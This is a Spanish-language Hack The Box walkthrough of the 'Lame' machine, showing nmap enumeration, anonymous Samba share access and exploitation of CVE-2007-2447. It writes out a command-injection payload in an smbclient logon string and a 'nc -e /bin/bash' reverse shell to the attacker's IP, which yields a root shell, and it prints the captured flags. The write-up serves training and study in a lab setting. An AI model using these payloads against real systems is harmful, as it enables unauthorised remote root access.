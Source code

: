```yaml
---
category: Hack The Box
tags:
  - eJPT
title: Machine Lame
comments: true
image: /assets/img/machines/lame/lamebanner.jpeg
---
```

# Introducción
En este writeup analizaremos paso a paso la máquina Lame de HackTheBox, una máquina de nivel fácil orientada a principiantes. Durante el proceso, realizaremos una enumeración básica de servicios, identificaremos vulnerabilidades conocidas en versiones antiguas de FTP y Samba, y finalmente explotaremos una de ellas para obtener acceso root al sistema.  
El objetivo principal es comprender cómo una mala configuración o la falta de actualizaciones pueden poner en riesgo todo un servidor.

## Skills
- Explotación de la vulnerabilidad en Samba (CVE-2007-2447)

Aprenderás a explotar la vulnerabilidad en Samba, que afecta las versiones **3.0.20 hasta 3.0.25rc3**, utilizando el **Username Map Script** para ejecutar comandos arbitrarios en el sistema vulnerable.

Te familiarizarás con el proceso de explotación mediante un **payload de ejecución remota de comandos**, que se aprovecha de la configuración incorrecta de Samba.

# Enumeración
```bash
nmap -sCV -p21,22,139,445,3632 10.10.10.3

Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.10.3
Host is up (0.24s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-05-07T00:15:15-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m54s, deviation: 2h49m45s, median: 51s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.69 seconds
```

Al escanear la máquina con Nmap, se identificaron los siguientes puertos abiertos:

![1](/assets/img/machines/lame/1.jpeg)

Estos resultados revelan servicios comunes, pero destacan dos elementos críticos:  
una versión vulnerable del servicio **vsftpd** y un servicio **Samba** que más adelante se demostrará vulnerable a ejecución remota de comandos.

# Explotación samba (CVE-2007-2447)
Después de detectar que los puertos **139** y **445** estaban abiertos, se intentó interactuar con los recursos compartidos de Samba. Para esto, se utilizó el siguiente comando:
```bash
smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
```

![2](/assets/img/machines/lame/2.jpeg)
- `-L`: lista los recursos compartidos del servidor.

- `-N`: indica que no se usará autenticación.

- `--option 'client min protocol = NT1'`: fuerza el uso del protocolo SMBv1, necesario para comunicarse con versiones antiguas de Samba.

## Acceso al recurso compartido
Una vez identificados los recursos compartidos, se intentó acceder al recurso `tmp`, el cual estaba disponible sin autenticación:
```bash
smbclient //10.10.10.3/tmp -N --option 'client min protocol = NT1'
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed May  7 00:38:47 2025
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  .ICE-unix                          DH        0  Tue May  6 08:50:02 2025
  vmware-root                        DR        0  Tue May  6 08:50:48 2025
  .X11-unix                          DH        0  Tue May  6 08:50:29 2025
  .X0-lock                           HR       11  Tue May  6 08:50:29 2025
  vgauthsvclog.txt.0                  R     1600  Tue May  6 08:50:01 2025

		7282168 blocks of size 1024. 5386580 blocks available
smb: \>
```

## Verificación de RCE
Después de confirmar que el recurso compartido `/tmp` estaba accesible sin credenciales, se procedió a verificar si era posible ejecutar comandos remotamente a través del vector conocido de explotación en versiones vulnerables de Samba (**3.0.20 a 3.0.25rc3**).
```bash
smb: \> logon "/=` nohup ping -c 1 10.10.16.4`"
```
Este comando intenta ejecutar un ping desde la máquina víctima hacia el atacante. Para confirmar si el comando fue ejecutado, se utiliza tcpdump para estar en escucha en otra terminal con:
```bash
tcpdump -i tun0 icmp -n

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:44:11.709711 IP 10.10.10.3 > 10.10.16.4: ICMP echo request, id 20768, seq 1, length 64
00:44:11.709740 IP 10.10.16.4 > 10.10.10.3: ICMP echo reply, id 20768, seq 1, length 64
```

## Escalada a Shell Remota
Tras confirmar la posibilidad de ejecutar comandos remotamente mediante la vulnerabilidad de Samba, se procedió a obtener una **reverse shell** con privilegios de root:
```bash
smb: \> logon "/=` nohup nc -e /bin/bash 10.10.16.4 443`"
```

Mientras tanto, en otra terminal del host atacante se dejó un listener activo:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.3] 47055
whoami
root
id
uid=0(root) gid=0(root)

script /dev/null -c bash
root@lame:/tmp# 
```

## Captura de Flags
Una vez obtenida la shell como root, se procedió a buscar y capturar las flags que demuestran la explotación exitosa de la máquina.
```bash
root@lame:/tmp# cd /home
root@lame:/home# ls
ftp  makis  service  user
root@lame:/home# cd makis/
root@lame:/home/makis# ls
user.txt
root@lame:/home/makis# cat user.txt 
c5de0909f9e1bacbedd34f928a88beff

root@lame:/home/makis# cd /root
root@lame:/root# ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt 
03b1610fba39cb72f7fb1fa054a4b408
```

